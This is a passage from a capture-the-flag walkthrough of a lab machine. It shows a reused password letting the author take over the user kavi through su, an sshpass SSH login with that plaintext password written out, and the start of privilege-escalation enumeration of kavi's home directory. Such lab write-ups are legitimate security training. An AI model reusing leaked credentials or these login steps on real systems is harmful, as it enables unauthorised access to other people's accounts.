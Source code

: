 ```
        con.query(sql, function (err, result) {
        if (err) throw err;
        console.log("[+] Logged");
        });
    });
};

module.exports.log = log

```

### su / SSH

That password is actually kavi’s password. It works for `su`:

```

mark@seventeen:~$ su kavi
Password: 
kavi@seventeen:/home/mark$

```

And SSH:

```

oxdf@hacky$ sshpass -p 'IhateMathematics123#' ssh kavi@seventeen.htb 
...[snip]...
kavi@seventeen:~$

```

## Shell as Root

### Enumeration

#### Home Dir

kavi has no non-hidden files in their home dir:

```

kavi@seventeen:~$ ls -la
total 44
drwxr-x---   7 kavi kavi 4096 May 11 11:51 .
drwxr-xr-x   4 root root 4096 Apr  8 19:06 ..
lrwxrwxrwx   1 kavi kavi    9 Apr 10 03:17 .bash_history -> /dev/null
-rw-r--r--   1 kavi kavi  220 Apr  4  2018 .bash_logout
-rw-r--r--   1 kavi kavi 3771 Apr  4  2018 .bashrc
drwx------   2 kavi kavi 4096 Feb 19 12:27 .cache
drwxrwxr-x   3 kavi kavi 4096 Feb 26 19:28 .composer
drwx------   3 kavi kavi 4096 Feb 19 12:27 .gnupg
drwxrwxr-x   3 kavi kavi 4096 Feb 19 18:23 .local
drwxrwxr-x 148 kavi kavi 4096 Apr 10 03:23 .npm
-rw-------   1 kavi kavi   32 May 11 15:04 .npmrc
-rw-r--r--   1 kavi kavi  807 Apr  4  2018 .profile

```
